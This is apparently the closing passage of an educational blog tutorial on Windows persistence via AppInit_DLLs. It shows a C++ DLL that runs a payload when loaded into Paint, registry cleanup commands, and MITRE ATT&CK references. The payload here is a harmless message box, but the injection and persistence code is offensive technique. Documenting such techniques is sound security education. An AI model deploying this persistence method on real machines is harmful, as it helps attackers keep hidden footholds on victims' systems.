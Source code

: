 ```cpp
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  char path[MAX_PATH];
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    GetModuleFileName(NULL, path, MAX_PATH);
    if (subStr(path, (char *)"paint")) {
      runMe();
    }
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

As you can see, if the current process is `paint` (and is 32-bits) then, "inject" :)

![pers](/assets/images/55/2022-05-16_10-49.png){:class="img-responsive"}    

Perfect! :)

![pers](/assets/images/55/2022-05-16_10-59.png){:class="img-responsive"}    

For cleanup, after end of experiments:

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /d 0
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /f
```

![pers](/assets/images/55/2022-05-16_11-18.png){:class="img-responsive"}    

This technique is not new, but it is worth paying attention to it, in the wild, this trick was often used by groups such as [APT 39](https://attack.mitre.org/groups/G0087) and malwares as [Ramsay](https://attack.mitre.org/software/S0458/).

[MITRE ATT&CK: APPInit_DLLs](https://attack.mitre.org/techniques/T1546/010/)    
[APT39](https://attack.mitre.org/groups/G0087)    
[Ramsay](https://attack.mitre.org/software/S0458/)    
[source code in github](https://github.com/cocomelonc/2022-05-16-malware-pers-5)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
